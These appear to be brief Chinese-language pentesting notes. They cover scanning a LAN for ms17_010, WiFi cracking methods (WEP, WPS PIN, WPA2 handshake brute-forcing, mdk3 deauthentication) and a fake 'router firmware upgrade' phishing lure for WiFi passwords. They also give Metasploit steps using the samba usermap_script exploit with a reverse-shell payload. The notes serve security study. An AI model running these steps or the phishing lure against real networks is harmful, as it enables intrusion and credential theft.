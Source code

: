 ****

### 局域网

对局域网的msf扫描 查找smb漏洞（ms17_010）

局域网中的pc1发送数据帧给pc2,经过交换机时,交换机会在内部mac地址表中查找数据帧中的目标mac地址，如果找到就将该数据帧发送到相应的端口，如果找不到，交换机就会向入端口以外的所有端口发送此数据帧(所谓的广播，不过不是广播帧，广播帧的目的mac地址是全F)。

****

### WIFI

wifi 密码破解:

看加密方式 WEP加密 秒破

WPS  计算PIN码....

WPA2加密 抓包穷举密码

再或者钓鱼 写个web 	由于路由器固件太旧，导致网络不稳定，可以通过升级 路由器固件提高稳定性，输入wifi密码后点击确认升级

**mdk3攻击目标wifi使其掉线**

****

**使用Metasploit进行漏洞检测和入侵**

**1、    使用nmap进行端口扫描**  

nmap -sV IP 

获得端口的开放状态和指纹信息 就是服务名称和版本号 之后可以根据这些信息百度看看是不是存在漏洞

 **2、    使用search命令查找相关模块**  

search samba 进行查看端口是不是存在漏洞,查找到excellent或者great的

 **3、    使用use调度模块**   

use exploit/multi/samba/usermap_script。之后使用漏洞模块

**4、    使用info查看模块信息**   

**5、    选择payload作为攻击**   

set payload cmd/unix/reverse

**6、    设置攻击参数**   

首先通过show options或者options，查看需要填写的参数： 其中标红处如果是yes，表示这行参数必须填写，如果是no，就是选填，

**7、    渗透攻击**

exploit



参考连接:https://blog.csdn.net/wsh19930305/article/details/72855660

****

